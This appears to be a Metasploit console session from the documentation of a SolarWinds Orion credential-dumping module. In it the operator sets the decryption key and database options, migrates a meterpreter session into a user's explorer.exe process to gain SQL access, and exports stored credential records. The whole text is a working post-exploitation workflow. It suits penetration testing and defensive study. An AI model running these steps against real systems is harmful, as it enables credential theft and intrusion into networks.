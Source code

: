 ```
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[-] Sqlcmd: Error: Microsoft ODBC Driver 13 for SQL Server : Login failed for user 'CESIUM137\WINNING$'..
[-] No records exported from SQL server
[-] Post aborted due to failure: unknown: Could not export SolarWinds Orion database records
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set AES_KEY 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
AES_KEY => 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set RSA_KEY_FILE /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
RSA_KEY_FILE => /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set MSSQL_INSTANCE tcp:cornflakes.cesium137.io
MSSQL_INSTANCE => tcp:cornflakes.cesium137.io
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set MSSQL_DB SolarWindsOrion
MSSQL_DB => SolarWindsOrion
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID    PPID   Name                                     Arch  Session  User                                Path
 ---    ----   ----                                     ----  -------  ----                                ----
 0      0      [System Process]
 4      0      System                                   x64   0
 [...]
 10704  10636  explorer.exe                             x64   1        CESIUM137\operatorman               C:\Windows\explorer.exe
 [...]

meterpreter > migrate 10704
[*] Migrating from 17108 to 10704...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > export

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[*] MSSQL_INSTANCE and MSSQL_DB advanced options set, connect to SQL using SSPI
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[+] 10 rows exported, 6 unique CredentialIDs
```